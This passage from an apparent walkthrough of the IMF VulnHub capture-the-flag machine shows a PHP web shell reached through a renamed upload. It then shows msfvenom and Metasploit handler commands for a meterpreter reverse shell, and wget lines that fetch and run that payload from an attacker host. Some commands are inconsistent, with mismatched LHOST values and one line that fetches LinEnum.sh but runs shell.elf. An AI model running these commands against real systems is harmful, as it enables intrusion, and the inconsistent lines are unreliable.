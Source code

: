 `http://192.168.175.140/my_img.php?cmd=ls` fails to execute.

Upon inspecting the source we discover some characters in the comments. Trying these characters as the filename, we get the file. We can conclude the files are renamed after being uploaded.

```
<!-- 9f32c31a95bf --><form id="Upload" action="" enctype="multipart/form-data" method="post">

http://192.168.175.140/9f32c31a95bf.php?cmd=ls
9f32c31a95bf is the new name for the file.
```
Once we in we get
```
flag5_abc123def.txt
YWdlbnRzZXJ2aWNlcw==
echo YWdlbnRzZXJ2aWNlcw== | base64 -d
agentservices

```
Hopefully come in handy at some point.
First things first we'll try get a proper shell using metasploit
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.227.135 LPORT=1234 -f elf > shell.elf

use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.109.128
set LPORT 1234
set ExitOnSession false
exploit -j -z
```
Get the payload;
```
wget http://192.168.227.135/shell.elf -O /tmp/shell.elf && chmod 744 /tmp/shell.elf && cd /tmp && ./shell.elf
wget http://10.11.0.250/shell.elf -O /tmp/shell.elf ; chmod 744 /tmp/shell.elf ; cd /tmp ; ./shell.elf

wget http://192.168.227.135/LinEnum.sh -O /dev/shm ; chmod 744 /dev/shm ; cd /tmp ; ./shell.elf
```
Executing this gives us a meterpreter session.

We check the services that are running .

![screenshot 5.png](/assets/images/posts/imf-vulnhub-walkthrough/screenshot 4.png)

```
netstat -antup

tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -              
tcp        0      0 0.0.0.0:7788            0.0.0.0:*               LISTEN      -            
```
We see there are two services runnnig locally. One is mysql and the other requires further investigation.
